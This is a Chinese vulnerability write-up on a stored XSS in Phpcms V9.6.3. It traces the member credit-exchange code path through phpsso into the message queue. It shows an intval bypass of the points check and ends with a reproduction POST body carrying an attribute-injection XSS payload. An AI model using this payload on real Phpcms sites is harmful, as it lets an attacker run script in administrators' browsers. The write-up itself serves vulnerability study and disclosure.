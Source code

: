 Phpcms V9.6.3 储存型xss
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

问题出在会员的积分兑换功能，文件：

    /phpcms/modules/member/index.php
     public function change_credit() {
      $memberinfo = $this->memberinfo;
      //加载用户模块配置
      $member_setting = getcache('member_setting');
      $this->_init_phpsso();
      $setting = $this->client->ps_getcreditlist();
      $outcredit = unserialize($setting);
      $setting = $this->client->ps_getapplist();
      $applist = unserialize($setting);

      if(isset($_POST['dosubmit'])) {
       //本系统积分兑换数
       $fromvalue = intval($_POST['fromvalue']);
       //本系统积分类型
       $from = $_POST['from'];
       $toappid_to = explode('_', $_POST['to']);      //这个是问题的参数
       //目标系统appid
       $toappid = $toappid_to[0];
       //目标系统积分类型
       $to = $toappid_to[1];
       if($from == 1) {
        if($memberinfo['point'] < $fromvalue) {
         showmessage(L('need_more_point'), HTTP_REFERER);
        }
       } elseif($from == 2) {
        if($memberinfo['amount'] < $fromvalue) {
         showmessage(L('need_more_amount'), HTTP_REFERER);
        }
       } else {
        showmessage(L('credit_setting_error'), HTTP_REFERER);
       }

       $status = $this->client->ps_changecredit($memberinfo['phpssouid'], $from, $toappid, $to, $fromvalue);

这里有个问题，由于`if($memberinfo['point'] < $fromvalue)`所以，`$fromvalue`不能大于会员的点数，但是没充值的状态下，点数是为0的，但是又由于上面有`intval($fromvalue)`，所以我们可以`$fromvalue=0.9`经过`intval`后就成了`0`，也就绕过了上面的逻辑。跟进`ps_changecredit`函数：

    public function ps_changecredit($uid, $from, $toappid, $to, $credit) {
      return $this->_ps_send('changecredit', array('uid'=>$uid, 'from'=>$from, 'toappid'=>$toappid, 'to'=>$to, 'credit'=>$credit));
     }

继续跟进`_ps_send`函数：

    private function _ps_send($action, $data = null) {
       return $this->_ps_post($this->ps_api_url."/index.php?m=phpsso&c=index&a=".$action, 500000, $this->auth_data($data));
     }

最后是经过`auth_data`函数处理和加密，`auth_data`调用`sys_auth`加密函数进行加密:

    public function auth_data($data) {
      $s = $sep = '';
      foreach($data as $k => $v) {
       if(is_array($v)) {
        $s2 = $sep2 = '';
        foreach($v as $k2 => $v2) {
          $s2 .= "$sep2{$k}[$k2]=".$this->_ps_stripslashes($v2);
         $sep2 = '&';
        }
        $s .= $sep.$s2;
       } else {
        $s .= "$sep$k=".$this->_ps_stripslashes($v);
       }
       $sep = '&';
      }

      $auth_s = 'v='.$this->ps_vsersion.'&appid='.APPID.'&data='.urlencode($this->sys_auth($s));
      return $auth_s;
     }

`_ps_post`函数主要就是让服务器访问自己的网站上的一个地址也就是访问了`phpsso`的`changecredit`函数（方法）。我们先来看看`phpsso`：

    class phpsso {

     public $db, $settings, $applist, $appid, $data;
     /**
      * 构造函数
      */
     public function __construct() {
      $this->db = pc_base::load_model('member_model');
      pc_base::load_app_func('global');

      /*获取系统配置*/
      $this->settings = getcache('settings', 'admin');
      $this->applist = getcache('applist', 'admin');

      if(isset($_GET) && is_array($_GET) && count($_GET) > 0) {
       foreach($_GET as $k=>$v) {
        if(!in_array($k, array('m','c','a'))) {
         $_POST[$k] = $v;
        }
       }
      }

      if(isset($_POST['appid'])) {
       $this->appid = intval($_POST['appid']);
      } else {
       exit('0');
      }

      if(isset($_POST['data'])) {
       parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);


    parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);可以看到是通过sys_auth函数解密（加密跟解密的函数是一样的）。
    最后来看看changecredit：
     public function changecredit() {
      $this->uid = isset($this->data['uid']) ? $this->data['uid'] : exit('0');
      $this->toappid = isset($this->data['toappid']) ? $this->data['toappid'] : exit('0');
      $this->from = isset($this->data['from']) ? $this->data['from'] : exit('0');
      $this->to = isset($this->data['to']) ? $this->data['to'] : exit('0');
      $this->credit = isset($this->data['credit']) ? $this->data['credit'] : exit('0');
      $this->appname = $this->applist[$this->appid]['name'];
      $outcredit = $this->getcredit(1);
      //目标系统积分增加数
      $this->credit = floor($this->credit * $outcredit[$this->from.'_'.$this->to]['torate'] / $outcredit[$this->from.'_'.$this->to]['fromrate']);

      /*插入消息队列*/
      $noticedata['appname'] = $this->appname;
      $noticedata['uid'] = $this->uid;
      $noticedata['toappid'] = $this->toappid;
      $noticedata['totypeid'] = $this->to;
      $noticedata['credit'] = $this->credit;
      messagequeue::add('change_credit', $noticedata);
      exit('1');
     }


    这里是进入数据库了：messagequeue::add('change_credit', $noticedata);
     public static function add($operation, $noticedata_send) {
      $db = self::get_db();
      $noticedata_send['action'] = $operation;
      $noticedata_send_string = array2string($noticedata_send);

      if ($noticeid = $db->insert(array('operation'=>$operation, 'noticedata'=>$noticedata_send_string, 'dateline'=>SYS_TIME), 1)) {
       self::notice($operation, $noticedata_send, $noticeid);
       return 1;
      } else {
       return 0;
      }
     }

调用insert写入数据。。这里就不跟了。由于系统开启了gpc（两次，初始化一次，phpsso一次），所以进去的数据是经过两次gpc的输出跟模板就不说了，反正没过滤直接出来

整理一下思路，先从积分兑换填写表单，然后将数据整理成数组经过`sys_auth`加密一次，然后服务器发送数据包给自己，收到数据包之后用`sys_auth`函数解密，然后调用`changecredit`方法，`inert`插入数据库，然后管理员在后台点击通信信息的时候触发xss!

### 漏洞复现

利用方法，先注册一个帐号，然后登录，然后访问:http://www.0-sec.org/index.php?m=member&c=index&a=change\_credit&post:

    dosubmit=1&fromvalue=0.6&from=1id=1`setset'&to=}" onmousemove=alert(1)>//

![1.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3储存型xss/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/1860
